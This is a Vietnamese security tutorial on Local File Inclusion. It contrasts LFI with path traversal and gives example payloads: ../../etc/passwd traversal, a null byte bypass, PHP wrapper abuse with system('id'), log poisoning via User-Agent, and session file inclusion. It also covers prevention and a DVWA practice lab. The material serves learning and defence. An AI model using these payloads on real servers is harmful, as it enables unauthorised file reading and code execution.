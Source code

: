 # LFI (Local File Inclusion)

## 1. Định Nghĩa
- **Local File Inclusion (LFI)** là một lỗ hổng bảo mật web xảy ra khi ứng dụng không kiểm tra hoặc lọc dữ liệu đầu vào một cách chặt chẽ. LFI cho phép kẻ tấn công chỉ định đường dẫn tới các file trên máy chủ, dẫn đến việc tải hoặc thực thi các file đó.

---

## 2. Nguyên Nhân
- Ứng dụng chấp nhận dữ liệu đầu vào từ người dùng mà không kiểm tra đúng cách.
- Sử dụng các hàm như `include()`, `require()`, `include_once()` hoặc `require_once()` mà không lọc đầu vào.
- Thiếu các biện pháp bảo vệ như kiểm tra whitelist hoặc mã hóa đường dẫn.

---

## 3. Phân Biệt LFI và Path Traversal
### 3.1. Path Traversal
Path Traversal là một lỗ hổng bảo mật cho phép kẻ tấn công truy cập các file không được phép trên server bằng cách thay đổi đường dẫn file. Path Traversal thường chỉ cho phép đọc file mà không thực thi chúng.

Ví dụ:
```http
http://example.com/index.php?file=../../etc/passwd
```

### 3.2. Local File Inclusion (LFI)
LFI không chỉ cho phép truy cập file mà còn có khả năng thực thi nội dung file, đặc biệt khi ứng dụng sử dụng các hàm như `include()`. LFI có thể dẫn đến Remote Code Execution (RCE).

Ví dụ:
```http
http://example.com/index.php?page=../../var/log/apache2/access.log
```
Nếu kẻ tấn công đã chèn mã độc vào log file, mã này có thể được thực thi thông qua LFI.

| Tiêu Chí                  | Path Traversal                  | Local File Inclusion (LFI)       |
|---------------------------|---------------------------------|-----------------------------------|
| Mục tiêu chính            | Đọc file                        | Đọc và có thể thực thi file       |
| Hàm liên quan             | Không yêu cầu `include()`       | Yêu cầu các hàm như `include()`  |
| Mức độ nguy hiểm          | Cao                            | Rất cao                          |
| Ví dụ payload             | `../../etc/passwd`             | `../../var/log/apache2/access.log` |

---

## 4. Cách Khai Thác

### 4.1. Khai Thác Cơ Bản
Thay đổi giá trị tham số để tải các file nhạy cảm trên máy chủ:
```http
http://example.com/index.php?page=../../etc/passwd
```
- Payload `../../etc/passwd` sử dụng ký tự `../` để truy cập các thư mục cấp cao hơn.

### 4.2. Null Byte Injection
- Trong PHP < 5.3, ký tự null byte (`%00`) có thể bypass kiểm tra đuôi file:
```http
http://example.com/index.php?page=../../etc/passwd%00
```

### 4.3. Sử Dụng PHP Wrappers
- **Đọc file bằng `php://filter`**:
```http
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=config.php
```
- **Thực thi payload qua `php://input`**:
```http
POST /index.php?page=php://input

Payload:
<?php system('id'); ?>
```

### 4.4. Chèn Mã Vào Log Files
- Sử dụng `User-Agent` để chèn mã độc vào log server:
```http
User-Agent: <?php system('id'); ?>
```
- Sau đó, truy cập log file qua LFI:
```http
http://example.com/index.php?page=../../var/log/apache2/access.log
```

### 4.5. Khai Thác Session Files
- File session của PHP thường lưu tại `/var/lib/php/sessions/`.
- Sử dụng LFI để đọc hoặc chỉnh sửa session file:
```http
http://example.com/index.php?page=/var/lib/php/sessions/sess_<session_id>
```

---

## 5. Mục Tiêu Phổ Biến
- **Tệp cấu hình**:
  - `/etc/passwd`: Danh sách người dùng hệ thống.
  - `config.php`: File chứa thông tin cấu hình database.
- **Log Files**: `/var/log/apache2/access.log`, `/var/log/nginx/access.log`.
- **Session Files**: `/var/lib/php/sessions/`.

---

## 6. Tác Động
- Đọc các file nhạy cảm như mật khẩu, cấu hình server.
- Thực thi mã độc trên server (Remote Code Execution).
- Lấy thông tin để thực hiện các cuộc tấn công khác, như privilege escalation.

---

## 7. Cách Phòng Chống
- **Kiểm tra và lọc dữ liệu đầu vào**:
  - Chỉ cho phép các file trong danh sách whitelist.
  - Sử dụng hàm `basename()` để lọc đường dẫn.

- **Mã hóa và kiểm tra đầu vào**:
  - Chặn các ký tự đặc biệt như `../`, `%00`.
  - Sử dụng hàm `realpath()` để xác minh đường dẫn.

- **Giới hạn quyền truy cập file**:
  - Chỉ cung cấp quyền truy cập tối thiểu cho các file cần thiết.
  - Tắt hiển thị lỗi (disable error messages).

- **Cấu hình server**:
  - Tắt `allow_url_include` và `allow_url_fopen` trong PHP.
  - Vô hiệu hóa các PHP wrappers không cần thiết.

---

## 8. Công Cụ Hỗ Trợ
- **Burp Suite**: Để intercept và test payloads.
- **FFUF**: Brute force các đường dẫn file nhạy cảm.
- **Dirb**: Tìm kiếm các file ẩn hoặc nhạy cảm trên server.

---

## 9. Thực Hành
### Môi Trường Thử Nghiệm
- **Docker LFI Lab**:
```bash
docker pull vulnerables/web-dvwa
docker run -d -p 80:80 vulnerables/web-dvwa
```

### Bài Tập Thực Hành
- HackTheBox: Challenges về LFI.
- TryHackMe: Module LFI.

---

## 10. Kết Luận
Local File Inclusion là một lỗ hổng nguy hiểm nhưng có thể phòng ngừa hiệu quả với các biện pháp kiểm tra đầu vào và cấu hình hệ thống an toàn. LFI và Path Traversal có sự khác biệt rõ rệt, trong đó LFI nguy hiểm hơn do khả năng thực thi mã độc. Việc hiểu rõ cơ chế và cách khai thác sẽ giúp bạn xây dựng các ứng dụng bảo mật hơn.
